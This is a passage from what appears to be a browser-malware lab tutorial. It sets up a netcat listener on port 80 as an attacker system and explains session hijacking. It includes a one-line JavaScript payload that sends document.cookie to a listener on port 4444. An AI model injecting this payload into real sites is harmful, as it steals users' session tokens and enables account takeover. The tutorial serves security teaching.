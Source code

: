 <br>

To demonstrate these, start up JSLab to act as the attacker-owned system.  

Since Google Chrome restricts certain functionality to destination port 80, we'll need to open up port 80 which requires root permissions.

To listen for connections on port 80:

```bash
sudo -i 
nc -lp 80
```

The system should now be listening for connections on port 80.


### Session Hijacking

Many web applications use cookies or session tokens to identify users and their authenticated sessions.  By stealing a user's session cookie and copying it to their browser, an attacker can use the site while impersonating the victim and take over the account.  Common scenarios include the compromise of webmail accounts, online banking services, and company website administrator accounts.

The following code will make the browser send the user's session token for that website to an attacker-owned URL which can then be used to hijack the session and take over the account:

```javascript
(new Image()).src = `//${window.location.hostname}:4444/grabsessid.php?` + document.cookie;
```


In DevTools, watch the Network tab and click the `Session Hijack` button.  You can see that the cookie is sent in the URL of the request:

![](images/JavaScript%20and%20Browser-based%20Malware/image0088.png)
![](images/JavaScript%20and%20Browser-based%20Malware/image008.png)<br><br>
